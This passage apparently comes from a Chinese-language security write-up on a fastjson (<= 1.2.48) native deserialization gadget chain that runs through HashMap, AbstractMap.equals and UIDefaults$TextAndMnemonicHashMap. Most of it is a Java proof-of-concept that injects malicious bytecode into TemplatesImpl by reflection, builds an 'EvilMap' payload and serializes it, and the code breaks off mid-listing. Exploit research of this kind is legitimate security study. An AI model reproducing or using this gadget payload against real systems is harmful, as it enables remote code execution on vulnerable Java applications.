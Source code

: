 为了防止有同学在hashMap那搞混，贴个图

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250325224937106.png)



### 链子3

```java
HashMap.readObject() -> AbstractMap.equals -> UIDefault$TextAndMnemonicHashMap.get -> toString
```

很鸡肋，都能用这个了为什么不用链子2，还更短，主要是学习一手HashMap.readObject->HashMap.get(Object)的链子吧

POC：

```java
package org.exploit.third.fastjson.nativeDeser;

import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

import static org.exploit.third.Dubbo.Utils.makeMap;

//fastjson <= 1.2.48 原生反序列化
//HashMap.readObject -> AbstractMap.equals -> javax.swing.UIDefaults$TextAndMnemonicHashMap.get -> toString
public class TextAndMnemonicHashMap_1_2_48 {
    public static void main(String[] args) throws Exception{
        byte[] code1 = Files.readAllBytes(Paths.get("target/classes/TemplatesImpl_RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("templateClass",templatesClass);
        Class<?> textAndMnemonicHashMapClass = Class.forName("javax.swing.UIDefaults$TextAndMnemonicHashMap");
        Constructor<?> constructor = textAndMnemonicHashMapClass.getDeclaredConstructor();
        constructor.setAccessible(true);
        Map textAndMnemonicHashMap1 = (Map) constructor.newInstance();
        Map textAndMnemonicHashMap2 = (Map) constructor.newInstance();

        textAndMnemonicHashMap1.put(jsonObject, null);
        textAndMnemonicHashMap2.put(jsonObject, null);
        HashMap EvilMap = makeMap(textAndMnemonicHashMap1,textAndMnemonicHashMap2);

        serialize(EvilMap);
        unserialize("ser.bin");
```
